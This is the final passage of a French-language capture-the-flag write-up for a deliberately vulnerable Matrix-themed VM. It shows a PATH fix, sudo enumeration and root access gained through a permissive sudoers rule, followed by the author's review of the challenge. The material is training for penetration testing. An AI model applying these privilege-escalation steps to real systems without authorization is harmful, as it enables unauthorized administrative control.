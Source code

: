 La solution de facilité consiste à ajouter les chemins qui vont bien à la variable d'environnement ```PATH```.

```console
guest@porteus:~$ export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

guest@porteus:~$ uname -r
4.16.3-porteus
```

## Mauvaise gestion des privilèges d'administration via le fichier /etc/sudoers

```console
guest@porteus:~$ sudo -l
User guest may run the following commands on porteus:
    (ALL) ALL
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
```

Dommage, tout comme la [VM W1R3S: 1.0.1](/CTF-VulnLabs/w1r3s), la fin de ce CTF est une formalité. L'utilisateur guest est autorisé à exécuter toutes les commandes via sudo, on peut alors passer root avec la commande ```sudo su``` et le tour est joué.

```console
guest@porteus:~$ /usr/bin/sudo su root

root@porteus:/home/guest# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

root@porteus:/home/guest# wc -c /root/flag.txt
691 /root/flag.txt
```

## Conclusion

La première partie de ce CTF ressemblait davantage à une chasse au trésor, et n'est pas représentative de ce qu'on pourrait trouver en pentest (encore que...), la diversité des challenges était néanmoins sympa. À moins de n'avoir sauté une étape, le compte utilisateur ```trinity``` n'entre en rien dans la résolution du CTF, ce qui est dommage ; une étape intermédiaire aurait été la bienvenue. Idem pour l'élévation de privilèges, le ```sudo su root``` est assez simple à trouver et à exploiter. Cela dit, la VM aux couleurs de Matrix et l'idée du _restricted shell_ étaient très chouettes. Merci beaucoup à [Ajay Verma](https://twitter.com/unknowndevice64) pour la création de cette VM !
